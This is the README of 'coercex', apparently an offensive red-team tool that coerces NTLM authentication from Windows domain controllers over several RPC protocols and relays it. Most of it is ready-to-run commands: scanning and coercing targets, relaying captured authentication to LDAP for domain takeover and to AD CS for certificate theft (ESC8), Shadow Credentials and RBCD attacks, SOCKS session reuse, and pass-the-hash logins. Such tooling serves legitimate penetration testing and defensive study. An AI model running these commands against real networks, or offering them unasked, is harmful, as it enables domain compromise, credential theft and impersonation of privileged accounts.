

# coercex

Async NTLM authentication coercion scanner and relay tool. A high-performance replacement for Coercer and PetitPotam with built-in NTLM relay capabilities.

## Features

- **19 coercion methods** across 7 protocols: MS-EFSR (10), MS-RPRN (2), MS-DFSNM (2), MS-FSRVP (2), MS-EVEN (1), MS-PAR (1), MS-TSCH (1)
- **3 operation modes**: scan, coerce, relay
- **Method/pipe/protocol filtering** with glob and regex pattern matching
- **NTLM relay** via impacket ntlmrelayx -- relay captured auth to LDAP, SMB, HTTP/AD CS, etc.
- **Kerberos authentication** with ccache/TGT/TGS support
- **Async architecture** with configurable concurrency (50-200 concurrent tasks)
- **Connection pooling** by (target, pipe, UUID) for session reuse
- **WebDAV transport** support (`\\host@port\share` format) to bypass SMB signing
- **Token correlation** for confirmed callback verification
- **Rich terminal output** with tables, colors, and progress indicators

## Installation

```bash
uv pip install -e .
```

## Quick Start

### Scan for coercible methods

```bash
# Scan a single target (listener auto-detects local IP)
coercex scan -t dc01.corp.local -u user -p pass -d corp.local

# Scan with explicit listener IP
coercex scan -t dc01.corp.local -l 10.0.0.5 -u user -p pass -d corp.local

# Scan multiple targets from file, EFSR only
coercex scan -T targets.txt -u user -p pass --protocols MS-EFSR

# Scan only specific methods by name (glob pattern)
coercex scan -t dc01 -u user -p pass --methods 'EfsRpc*'

# Scan only methods available on spoolss pipe
coercex scan -t dc01 -u user -p pass --pipes '\PIPE\spoolss'

# High-concurrency scan with hash auth
coercex scan -t dc01.corp.local -u user -H aad3b435b51404ee:abc123... -d corp --concurrency 200
```

### Coerce with external relay

```bash
# Trigger coercion pointing at your relay (ntlmrelayx, etc.)
# coercex does NOT bind any ports -- it only sends RPC triggers
coercex coerce -t dc01.corp.local -l 10.0.0.5 -u user -p pass -d corp.local

# Coerce with specific methods from scan results
coercex coerce -t dc01 -l 10.0.0.5 -u user -p pass --methods 'EfsRpcOpenFileRaw'

# Coerce via specific protocol + pipe
coercex coerce -t dc01 -l 10.0.0.5 -u user -p pass --protocols MS-RPRN --pipes '\PIPE\spoolss'

# Via WebDAV only (bypass SMB signing)
coercex coerce -t dc01.corp.local -l 10.0.0.5 -u user -p pass --transport http

# Via SMB only
coercex coerce -t dc01.corp.local -l 10.0.0.5 -u user -p pass --transport smb

# Both transports (default)
coercex coerce -t dc01.corp.local -l 10.0.0.5 -u user -p pass --transport smb --transport http
```

### Relay coerced authentication

```bash
# Relay to LDAP for domain takeover (auto-detect listener IP)
coercex relay -t dc01.corp.local \
  --relay-to ldap://dc02.corp.local \
  -u user -p pass -d corp.local

# Explicit listener IP
coercex relay -t dc01.corp.local -l 10.0.0.5 \
  --relay-to ldap://dc02.corp.local \
  -u user -p pass -d corp.local

# Relay to AD CS for certificate theft (ESC8)
coercex relay -t dc01.corp.local -l 10.0.0.5 \
  --relay-to http://cas.corp.local/certsrv/ \
  --adcs --template DomainController \
  -u user -p pass

# Shadow Credentials attack via LDAP relay
coercex relay -t dc01.corp.local -l 10.0.0.5 \
  --relay-to ldap://dc02.corp.local \
  --shadow-credentials --shadow-target dc01$ \
  -u user -p pass

# RBCD delegation access attack
coercex relay -t dc01.corp.local -l 10.0.0.5 \
  --relay-to ldap://dc02.corp.local \
  --delegate-access \
  -u user -p pass

# Keep relayed sessions alive with SOCKS proxy
coercex relay -t dc01.corp.local -l 10.0.0.5 \
  --relay-to smb://fileserver.corp.local \
  --socks \
  -u user -p pass

# Relay to multiple targets
coercex relay -t dc01.corp.local -l 10.0.0.5 \
  --relay-to ldap://dc02 --relay-to smb://fs01 --relay-to http://cas/certsrv/ \
  -u user -p pass

# Relay only specific methods
coercex relay -t dc01 -l 10.0.0.5 \
  --relay-to ldap://dc02 \
  --methods 'RpcRemote*' --protocols MS-RPRN \
  -u user -p pass
```

## Authentication

### Password / NTLM hash

```bash
coercex scan -t dc01 -u admin -p 'P@ssw0rd' -d corp.local
coercex scan -t dc01 -u admin -H 'aad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889' -d corp.local
```

### Kerberos with ccache

```bash
# Use a ccache file directly
coercex scan -t dc01 --ccache /tmp/krb5cc_admin -d corp.local

# Or set KRB5CCNAME and use -k
export KRB5CCNAME=/tmp/krb5cc_admin
coercex scan -t dc01 -k -d corp.local --dc-host dc01.corp.local

# AES key for Kerberos pre-auth
coercex scan -t dc01 -u admin --aes-key 4a3f... -k --dc-host dc01.corp.local -d corp.local
```

## Modes

| Mode | Listener | Binds Ports | Transport | Description |
|------|----------|-------------|-----------|-------------|
| `scan` | Optional (`-l`) | HTTP+SMB listener | `--transport smb http` (default: both) | Try all path styles per method. Always starts a listener for callback confirmation. If `-l` omitted, auto-detects local IP. |
| `coerce` | **Required** (`-l`) | **None** (external relay) | `--transport smb http` (default: both) | Fire coercion at `--listener` where your relay (e.g. ntlmrelayx) is already running. |
| `relay` | Optional (`-l`) | HTTP+SMB relay servers | `--transport smb http` (default: both) | Try all path styles through impacket relay servers. If `-l` omitted, auto-detects local IP. |

## Filtering

All three modes support `--methods`, `--pipes`, and `--protocols` filters:

```bash
# Filter by protocol
coercex scan -t dc01 -u user -p pass --protocols MS-EFSR MS-RPRN

# Filter by method name (glob pattern)
coercex scan -t dc01 -u user -p pass --methods 'RpcRemote*'

# Filter by method name (regex)
coercex scan -t dc01 -u user -p pass --methods 'EfsRpc.*Raw'

# Filter by named pipe
coercex scan -t dc01 -u user -p pass --pipes '\PIPE\spoolss'

# Combine filters
coercex coerce -t dc01 -l 10.0.0.5 -u user -p pass \
  --protocols MS-EFSR --methods 'EfsRpcOpenFileRaw'
```

## Protocols and Methods

| Protocol | Methods | Description |
|----------|---------|-------------|
| MS-EFSR | 10 | Encrypting File System Remote Protocol |
| MS-RPRN | 2 | Print System Remote Protocol |
| MS-DFSNM | 2 | Distributed File System Namespace Management |
| MS-FSRVP | 2 | File Server Remote VSS Protocol |
| MS-EVEN | 1 | EventLog Remoting Protocol |
| MS-PAR | 1 | Print System Asynchronous Remote Protocol |
| MS-TSCH | 1 | Task Scheduler Service Remote Protocol |

## Output

```bash
# Table output (default) -- shows only vulnerable/accessible
coercex scan -t dc01 -u user -p pass

# Show all results
coercex scan -t dc01 -u user -p pass -v

# JSON output
coercex scan -t dc01 -u user -p pass --json

# Write to file
coercex scan -t dc01 -u user -p pass -o results.txt
coercex scan -t dc01 -u user -p pass --json -o results.json
```

## Architecture



- **Scanner**: Async orchestrator with semaphore-bounded concurrency, 3 modes (scan/coerce/relay)
- **DCERPCPool**: Connection pool keyed by (target, pipe, UUID), all impacket calls wrapped with `asyncio.to_thread()`
- **Listener**: Async HTTP + SMB listener with UUID token correlation (scan with `-l`, coerce modes)
- **Relay**: Wraps impacket's ntlmrelayx HTTP/SMB relay servers in daemon threads (relay mode)
- **Methods**: Registry of 19 coercion methods across 7 protocols with pipe binding metadata, glob/regex filtering
